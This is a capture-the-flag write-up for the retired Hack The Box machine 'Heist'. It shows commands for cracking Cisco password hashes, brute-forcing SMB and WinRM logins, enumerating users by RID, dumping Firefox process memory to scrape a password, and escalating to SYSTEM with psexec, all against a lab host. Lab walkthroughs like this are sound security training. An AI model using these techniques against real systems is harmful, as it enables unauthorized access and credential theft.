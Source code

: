 # Heist

This is the write-up for the box Heist that got retired at the 30th November 2019.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.149    heist.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/heist.nmap 10.10.10.149
```

```markdown
PORT    STATE SERVICE       VERSION    
80/tcp  open  http          Microsoft IIS httpd 10.0       
| http-cookie-flags:          
|   /:                                                                                            
|     PHPSESSID:                             
|_      httponly flag not set                                                                     
| http-methods:                              
|_  Potentially risky methods: TRACE             
|_http-server-header: Microsoft-IIS/10.0     
| http-title: Support Login Page                                                                  
|_Requested resource was login.php           
135/tcp open  msrpc         Microsoft Windows RPC   
445/tcp open  microsoft-ds?                  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page forwards to _/login.php_ and shows a login page to a web application:

![Login page](heist_web-1.png)

When trying out an username, it says to enter an email address.
The button _"Login as guest"_ forwards to _/issues.php_ which looks like a help desk page with a service ticket and an attachment:

![Service ticket](heist_web-2.png)

The username _hazard_ could be a potential username.
The attachment forwards to _/attachments/config.txt_ and looks like a snippet of a **Cisco configuration** with the following interesting information:

```markdown
version 12.2
service password-encryption

security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91

username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

(...)
```

Cisco devices have [different password type levels](https://learningnetwork.cisco.com/s/article/cisco-routers-password-types) and in this case the _password level 7_ refers to a string that is encrypted with a **Vigenere Cipher** that is not secure anymore.

It can be cracked with the [Cisco Type 7 Password Decrypter](https://github.com/theevilbit/ciscot7) on GitHub:
```markdown
python ciscot7.py --decrypt -p 0242114B0E143F015F5D1E161713

python ciscot7.py --decrypt -p 02375012182C1A1D751618034F36415408
```

1. Password: _$uperP@ssword_
2. Password: _Q4)sJu\Y8qz*A3?d_

There is also a _secret level 5_ password for _enabling the admin privileges_, which is a Cisco-specific kind of MD5crypt, that can be cracked with **Hashcat**:
```markdown
hashcat -m 500 heist_cisco.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is: _stealth1agent_

Now we got different passwords and usernames and use this information to attack the server with a **Password Brute-Force attack**.

## Checking SMB (Port 445)

To brute-force the SMB shares, I will use the tool [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
```markdown
crackmapexec smb -u users.txt -p passwords.txt --shares 10.10.10.149
```

The same is possible with **Metasploit**:
```markdown
use auxiliary/scanner/smb/smb_login

setg USER_FILE users.txt
setg PASS_FILE passwords.txt
setg RHOSTS 10.10.10.149

run
```

The username _hazard_ with the password _stealth1agent_ is a valid username but is unprivileged to connect to the shares.
To move laterally with the credentials, it could be possible to use **Windows Remoting (WinRM)** that listens normally on port 5985 and 5986.

Testing if this is possible with a module in **Metasploit** with the same options as before:
```markdown
use auxiliary/scanner/winrm/winrm_login
```

Unfortunately it is unsuccessful.

### Enumerating Usernames

With credentials, it is possible to enumerate the box more with scripts from the **Impacket Framework**.
An enumeration method called **RID / SID Brute-Force** will display the users on the box:
```markdown
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py 'hazard:stealth1agent'@10.10.10.149
```
```markdown
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

It gives us three more usernames to put into the _users.txt_ file.

This works by using **RPC calls** which can also be manually accessed with **rpcclient**:
```markdown
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
```

Looking up names and SIDs of users:
```markdown
lookupnames administrator

S-1-5-21-4254423774-1266059056-3197185112-500
```

Looking up the usernames of the next users by changing the last digits:
```markdown
lookupsids S-1-5-21-4254423774-1266059056-3197185112-501
lookupsids S-1-5-21-4254423774-1266059056-3197185112-502
lookupsids S-1-5-21-4254423774-1266059056-3197185112-503
(...)
```

And that is how other usernames can be brute-forced.

After putting the new usernames into the _users.txt_ and running the _use auxiliary/scanner/winrm/winrm_login_ again, it shows that the user _chase_ with the password _Q4)sJu\Y8qz*A3?d_ are valid credentials.

To connect via WinRM, I will use the tool [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):
```markdown
ruby evil-winrm.rb -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149
```

This starts a shell on the box as _chase_.

## Privilege Escalation

Lets search through all files of _chase_ by going to the home folder in _C:\Users\Chase_ and display files and sub-directories recursively:
```markdown
gci -recurse . | select fullname
```

There is nothing interesting in there.
After searching for installed programs and running processes, it seems that **Firefox** is installed and can be found in the running processes:
```markdown
dir "C:\Program Files"

Get-Process
```
```markdown
PID     name
320     firefox
6408    firefox
6624    firefox
6812    firefox         
6936    firefox
```

The contents of the process can be dumped with **Sysinternals tool procdump** that has to be uploaded first and **Evil-WinRM** has an uploading function by default:
```markdown
upload procdump64.exe
```

The contents can be dumped with the corresponding PID of the process:
```markdown
procdump64.exe -ma 320
```

It creates a dump file that can be downloaded for analysis:
```markdown
download firefox.exe_201026_011809.dmp
```

Searching the dumpfile for passwords:
```markdown
strings firefox.exe_201026_011809.dmp | grep password | less
```

At the top is a password for the web interface from the beginning:
> 4dD!5}x/re8]FBuZ

Lets put _administrator_ into _users.txt_ and this new password into _passwords.txt_ and try another password spraying attempt with the module _auxiliary/scanner/smb/smb_login_:
```markdown
use auxiliary/scanner/winrm/winrm_login
```

The credentials for _administrator_ with the new found password _4dD!5}x/re8]FBuZ_ works and we can try to connect to the box via **Psexec**:
```markdown
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.149
```

After putting in the password, it starts a shell session as _NT AUTHORITY\SYSTEM_!

